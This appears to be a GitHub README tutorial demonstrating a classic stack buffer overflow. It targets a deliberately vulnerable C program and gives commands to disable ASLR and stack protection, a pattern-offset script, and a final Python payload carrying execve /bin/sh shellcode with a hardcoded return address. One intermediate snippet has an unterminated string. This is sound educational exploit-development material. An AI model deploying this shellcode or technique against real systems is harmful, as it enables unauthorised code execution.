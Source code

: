 # POC Stack Smashing

Here is the program that we are going to stack smash.


```c

  void vuln(char *s) {
    int v_ebp;
    char smallbuf[32];

    asm("movl %%ebp, %0\n"
        :"=r"(v_ebp));
    printf("Value in ebp %x\n", v_ebp);

    strcpy(smallbuf, s);
    printf("%s\n", smallbuf);
  }

  int main(int argc, char *argv[]){
 
    vuln(argv[1]);
    return 0; 
  }


```

Deactivate randomizing addr.
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Compiling to remove stack protection.
```bash
gcc -O0 -fno-stack-protector -no-pie -fno-PIE -z execstack $* -lm 
```

## Exploit

```bash
gdb printme
```

### Find EIP offset 

```python
# taken at https://github.com/ickerwx/pattern/blob/master/pattern
# adapted to python3 / jeb 07.09.2002

#!/usr/bin/env python
import sys
import struct
import string

def print_help():
    print('Usage: %s (create | offset) <buf len> <hex value>' % sys.argv[0])

def pattern_create(length = 8192):
    pattern = ''
    parts = ['A', 'a', '0']
    try:
        if not isinstance(length, int) and length.startswith('0x'):
#        if not isinstance(length, (int, long)) and length.startswith('0x'):
            length = int(length, 16)
        elif not isinstance(length, int):
#        elif not isinstance(length, (int, long)):
            length = int(length, 10)
    except ValueError:
        print_help()
        sys.exit(254)
    while len(pattern) != length:
        pattern += parts[len(pattern) % 3]
        if len(pattern) % 3 == 0:
            parts[2] = chr(ord(parts[2]) + 1)
            if parts[2] > '9':
                parts[2] = '0'
                parts[1] = chr(ord(parts[1]) + 1)
                if parts[1] > 'z':
                    parts[1] = 'a'
                    parts[0] = chr(ord(parts[0]) + 1)
                    if parts[0] > 'Z':
                        parts[0] = 'A'
    return pattern

def pattern_offset(value, length = 8192):
    try:
#        if not isinstance(value, (int, long)) and value.startswith('0x'):
        if not isinstance(value, int) and value.startswith('0x'):
            value = struct.pack('<I', int(value, 16)).strip('\x00')
    except ValueError:
        print_help()
        sys.exit(254)
    pattern = pattern_create(length)
    try:
        return pattern.index(value)
    except ValueError:
        return 'Not found'

def main():
    if len(sys.argv) < 3 or sys.argv[1].lower() not in ['create', 'offset']:
        print_help()
        sys.exit(255)

    command = sys.argv[1].lower()
    num_value = sys.argv[2]

    if command == 'create':
        print(pattern_create(num_value))
    elif len(sys.argv) == 4:
        str_pattern = str(sys.argv[3])
        if all(c in string.hexdigits for c in str_pattern):
            pattern = bytes.fromhex(str_pattern).decode('utf-8') [::-1]
            print(pattern, end='') 
            print(" --> ", end='')
            print(pattern_offset(pattern, num_value))
        else:
            print_help()
            sys.exit(255)

if __name__ == '__main__':
    main()

```

Create our own pattern
```bash
python3 py/patterns create 300
```

output
`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5A...`

Buffer injection :

```python
# https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection
import sys
shellcode = b""
eip_addr = b"
pattern  = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
sys.stdout.buffer.write(pattern)

```

In gdb : 


```bash
r `python3 py/inBuffer.py`
```

The program crashes with the invalid address which corresponds to our pattern : 

![alt text](image.png)

```bash
python3 patterns.py offset 100 41366241
```

![alt text](image-1.png)


```bash
gdb printme
pwndbg> b vuln 
pwndbg> disassemble
```

Our buffer's offset : 
```assembly
   0x080491aa <+36>:	lea    eax,[ebp-0x2c]
```

We can run the program since it displays our ebp addr.

Now this part we will calculate our entry point address for our shell code.

`ffffcd98−0x2c` = `FFFFCD6C`

Now we can pass our shellcode with our eip address and stack smash.
```python
# https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection
import sys
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
eip_addr = b"\x6c\xcd\xff\xff"
sys.stdout.buffer.write(shellcode + 30*eip_addr)
```